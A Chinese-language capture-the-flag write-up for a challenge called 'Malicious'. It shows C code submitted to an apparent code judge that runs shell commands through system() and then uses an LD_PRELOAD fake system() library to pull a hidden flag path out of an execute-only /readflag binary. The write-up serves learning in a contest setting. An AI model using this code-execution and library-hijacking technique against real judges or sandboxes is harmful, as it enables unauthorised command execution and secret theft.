





# Spirit CTF 2023#2 题解 - Malicious


Solution
---

首先~~这个题它确实可以AC~~可以用`system`来执行命令

```c
int solve() {
  system("id");
  return 123456789;
}
```



其次~~AC也不给你flag~~找到一个`/readflag.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(char* flag_path) {
  char command[256];
  strcpy(command, "echo ");
  strcat(command, flag_path);
  strcat(command, " > /dev/null");
  system(command);
  printf("I know where the flag is but I won't tell you~~~");
}

int main() { print_flag("<audited>"); }
```

想要获取`/readflag`也是不可行的，只有执行没有读写权限。

想直接找flag也行，我也不知道是哪个诶嘿～



这里`readflag`的嘲讽是多余的，咱制作一个假的`system`函数，使用`LD_PRELOAD`来进行动态库插桩

```c
#include <stdio.h>
#include <stdlib.h>

int solve() {
  char* src =
      "#include<stdio.h>\n"
      "int system(char * path) {\n"
      "  FILE * f = fopen(\"./flag_path\", \"w\");\n"
      "  fprintf(f, path);\n"
      "  fclose(f);\n"
      "}\n";
  FILE* f = fopen("./hack.c", "w");
  fputs(src, f);
  fclose(f);
  system("gcc hack.c -fPIC -shared -o hack.so");
  system("LD_PRELOAD=./hack.so ../readflag");
  system("cat ./flag_path");

  return 0;
}
```



然后直接读取就好啦

> Dionysus佬打出了个非预期解，快去摇他～

> 另外还有个~~新生~~卡密想到了按修改时间排序的方法，着实给我打懵了QAQ
>
> 
